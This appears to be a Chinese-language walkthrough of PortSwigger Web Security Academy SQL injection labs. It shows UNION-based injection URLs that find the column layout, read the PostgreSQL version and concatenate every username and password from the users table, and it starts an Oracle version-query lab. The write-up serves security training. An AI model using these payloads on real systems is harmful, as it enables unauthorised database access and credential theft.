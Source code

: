 The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

### 題目解釋
看標題感覺需要在同一個 column 中取多個 column 的資料。

### 解答
經過了簡單的測試會發現，總共有 2 個 column 且第一個 Column 只能是數字，第二個才能是 String

```
https://ac281f4c1e7affa4c00f9027009000f6.web-security-academy.net/filter?category=123%27%20UNION%20SELECT%201,NULL%20--%20-
```

偷看一下 SQL 的版本，輸入 `version()`

```
https://ac281f4c1e7affa4c00f9027009000f6.web-security-academy.net/filter?category=123%27%20UNION%20SELECT%201,version()%20--%20-
```


會發現他回傳了 `PostgreSQL 11.14 (Debian 11.14-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit`


PostgreSQL 的 String Concat 是 `|| `， 例如可以輸入 `SELECT 'meow' || '123'` 他會回傳 `meow123`

回到題目要取 `usernames` 跟 `passwords` ， 就可以一口氣取

```
https://ac281f4c1e7affa4c00f9027009000f6.web-security-academy.net/filter?category=123%27%20UNION%20SELECT%201,username%20||%20%27:%27%20||%20password%20from%20users%20--%20-
```

這邊就順利地回傳了 3 組密碼，取 administrator 的帳密登入即可過關


## [Lab: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
### 題目敘述
This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

### 題目解釋
這一題需要打的是 Oracle 的 Database，並顯示系統版本。

### 解答
Oracle 的特色是，無論如何，所有的 SELECT 都必須要搭配 FROM，如果沒有FROM 的話可以寫 `FROM dual`

